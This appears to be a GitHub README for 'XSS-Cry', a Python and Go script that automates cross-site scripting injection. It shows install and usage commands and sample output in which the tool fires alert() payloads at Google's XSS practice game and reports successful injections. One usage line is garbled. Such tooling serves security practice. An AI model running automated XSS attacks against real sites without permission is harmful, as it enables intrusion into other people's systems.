 # XSS-Cry
```
 _  _  ___  ___        ___  ____  _  _ 
( \/ )/ __)/ __) ___  / __)(  _ \( \/ )
 )  ( \__ ||__ \(___)( (__  )   / \  / 
(_/\_)(___/(___/      \___)(_)\_) (__) 
```
<br>
Practice Automated Cross-Site-Scriptin(XSS) attacks and injection with xss cry a script made from golang and python to automate XSSI getting post form req's and more
# usages and installs 
<br>
`install: git clone https://github.com/ArkAngeL43/XSS-Cry.git ; chmod +x ./install.sh ; ./install.sh`
<br>
`syntax: python3 xssi.py <url> <payload file>`
<br>
if you do not have an extra file or a file of payloads you can use the defualt xss.txt file like this 
`synL python3 xssi.py figlet parrots recon installer -f slant`
<br>
# xss output 

```

 _  _  ___  ___        ___  ____  _  _ 
( \/ )/ __)/ __) ___  / __)(  _ \( \/ )
 )  ( \__ ||__ \(___)( (__  )   / \  / 
(_/\_)(___/(___/      \___)(_)\_) (__) 
──────────────────────────────────────
    
[*] Socket Form -> xss-game.appspot.com
[*] Socket Name -> 172.217.3.84
[*] Regexed URL -> https://xss
[*] Started At  : 2021-10-24 21:10:23.802164
────────────────────────────────────────────
[*] Gathering X-Frame request headers......

[+] Response Status  ->  200 OK
[+] Date Of Request  ->  Mon, 25 Oct 2021 05:10:24 GMT
[+] Content-Encoding ->  
[+] Content-Type     ->  text/html; charset=utf-8
[+] Connected-Server ->  Google Frontend
[+] X-Frame-Options  ->  
[+] -> Content-Type -> [text/html; charset=utf-8]
[+] -> Cache-Control -> [no-cache]
[+] -> X-Xss-Protection -> [0]
[+] -> X-Cloud-Trace-Context -> [cc601b10861c59adea7166efa4ba77bb;o=1]
[+] -> Date -> [Mon, 25 Oct 2021 05:10:24 GMT]
[+] -> Server -> [Google Frontend]
[+] -> Alt-Svc -> [h3=":443"; ma=2592000,h3-29=":443"; ma=2592000,h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"]
[+] -> Vary -> [Accept-Encoding]
Scheme        --->  https
Hostname      --->  xss-game.appspot.com
Path in URL   --->  /level1/frame
Query Strings --->  
Fragments     --->  
map[]
Detected Payloads in file ->  7136
----------------------------------------------
[+] Utilizing Defualt xss script -> {payload}
[+] Targeting URL -> https://xss-game.appspot.com/level1/frame
[+] Time Started  -> 2021-10-24 21:10:34.466050
[~] Testing Payload -> 1 : 'onload=alert(1)><svg/1='
[+] XSSI Returned True At -> 2021-10-24 21:10:36.832116
[+] XSS Detected -> https://xss-game.appspot.com/level1/frame
 +--------------------------------------------------------------------------------------------------------------------------------------------------------+
|                                                                Content and form details                                                                |
+--------------------------------------------------------------------------------------------------------------------------------------------------------+
| {'action': '', 'method': 'get', 'inputs': [{'type': 'text', 'name': 'query', 'value': "'onload=alert(1)><svg/1='"}, {'type': 'submit', 'name': None}]} |
+--------------------------------------------------------------------------------------------------------------------------------------------------------+
[~] Testing Payload -> 1 : '>alert(1)</script><script/1='
[+] XSSI Returned True At -> 2021-10-24 21:10:37.168141
[+] XSS Detected -> https://xss-game.appspot.com/level1/frame
```
# libs and langs <br>
Python, Go-Lang <br>
`libs: socket, colorama, bs4, urlparse, readlines, argparse, requests, pprint, tabulate | go -> aura, and go-query`
